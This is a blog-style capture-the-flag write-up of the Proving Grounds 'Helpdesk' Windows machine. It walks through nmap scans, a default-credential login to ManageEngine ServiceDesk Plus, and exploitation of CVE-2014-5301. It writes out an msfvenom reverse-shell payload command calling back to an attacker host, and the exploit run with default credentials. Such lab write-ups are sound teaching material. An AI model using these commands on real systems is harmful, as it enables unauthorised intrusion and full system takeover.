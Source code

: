 ```yaml
---
layout: single
title: Helpdesk - Proving grounds Practice
date: 2023-06-15
classes: wide
header:
  teaser: /assets/images/windows.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - windows
  - easy
---
```


## Linux

![](/assets/images/windows.png)

This blog post is a writeup of the Helpdesk machine from Proving grounds practice.

### Summary
------------------
- ManageEngine allows us to access with the default credentials.
- Having a valid user, we are able to exploit CVE-2014-5301 and get a reverse shell as a privileged user.

### Detailed steps
------------------

### Enumeration

I started just enumerating the open ports with:
```
nmap -Pn -p- 192.168.152.43
```
![nmap1](\assets\images\pg-practice-helpdesk\1.JPG)

Knowing which ports are open, I executed an agressive nmap with:
```
nmap -A -Pn --script=vuln 192.168.152.43 -p 135,139,445,3389,8080 -o nmapa.txt
```
![nmap2](\assets\images\pg-practice-helpdesk\2_2.JPG)

As we can see in the last picture, there is a web server in 8080 port.
By accessing the website I was able to see a ManageEngine ServiceDesk Plus `7.6.0`

![manageengine](\assets\images\pg-practice-helpdesk\3.JPG)

### Explotation

This ManageEngine version is vulnerable to `CVE-2014-5301`

```
Vulnerability:  CVE-2014-5301
System Vulnerable: ManageEngine 
Vulnerability Explanation: Directory traversal vulnerability in ServiceDesk Plus MSP v5 to v9.0 v9030; AssetExplorer v4 to v6.1; SupportCenter v5 to v7.9; IT360 v8 to v10.4.  
Severity: high
```

In order to gain access I downloaded a python exploit from: https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py
 - To exploit this vulnerability you need to have a valid username and password so I decided to search the default credentials used by ManageEngine.

	Google search:
	![manageengine2](\assets\images\pg-practice-helpdesk\8.JPG)

	To my surprise, it worked
	![manageengine3](\assets\images\pg-practice-helpdesk\9.JPG)

	![manageengine5](\assets\images\pg-practice-helpdesk\10.JPG)

 - Now, having our valid credentials, it is necessary to create the payload in a WAR file with `mfsvenom`:
	```
	msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.231 LPORT=5555 -f war > shell.war
	```
	![manageengine6](\assets\images\pg-practice-helpdesk\7.JPG)
	
 - Before executing the payload I opened a netcat listener on 5555 port.
	![manageengine7](\assets\images\pg-practice-helpdesk\6.JPG)
	
 - The last step was run the exploit indicating the target, a valid credentials and our WAR file:
 ```
 ./exploit.py 192.168.152.43 8080 administrator administrator shell.war
 ```
 ![manageengine8](\assets\images\pg-practice-helpdesk\11.JPG)
 

After running the exploit I was able to catch the reverse shell as a high privileged user.
![manageengine9](\assets\images\pg-practice-helpdesk\12.JPG)

Being NT Authority\System I could find the root flag in Administrator's desktop
![flag1](\assets\images\pg-practice-helpdesk\25.JPG)
![flag2](\assets\images\pg-practice-helpdesk\rootf.JPG)